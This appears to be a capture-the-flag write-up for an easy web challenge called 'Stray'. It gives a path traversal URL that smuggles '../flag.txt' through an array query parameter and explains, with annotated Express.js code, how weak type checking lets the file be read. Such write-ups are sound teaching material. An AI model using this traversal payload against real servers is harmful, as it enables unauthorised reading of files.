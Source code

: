 ### Challenge
Name: Stray
Category: web
Difficulty: easy

### Solution
Enter the URL `https://stray.chall.pwnoh.io/cat?category[]=../flag.txt`

### Explanation
Here we exploit the poor type checking in app.js. On line 13 of app.js, the type of category is `string | QueryString.ParsedQs | string[] | QueryString.ParsedQs[] | undefined`. Because the only check is the length of category, we are able to [pass an array](https://stackoverflow.com/questions/6243051/how-to-pass-an-array-within-a-query-string) to the API. JavaScript will also implicitly cast an [array to a string](https://stackoverflow.com/questions/7124884/why-is-1-2-3-4-1-23-4-in-javascript#:~:text=JavaScript's%20%2B%20operator%20has%20two%20purposes,strings%20and%20then%20joining%20them.), omitting brackets.

```javascript
app.get("/cat", (req, res) => {
  let { category } = req.query; // ["../flag.txt"]

  console.log(category);

  if (category.length == 1) { // true, the array has length one
    const filepath = path.resolve("./names/" + category); // implicit cast, so "./names/../flag.txt"
    const lines = fs.readFileSync(filepath, "utf-8").split("\n"); // Reads flags one directory up from names, so ./flag.txt
    const name = lines[Math.floor(Math.random() * lines.length)];

    res.status(200);
    res.send({ name }); // We receive the flag as a response
    return;
  }

  res.status(500);
  res.send({ error: "Unable to generate cat name" });
});
```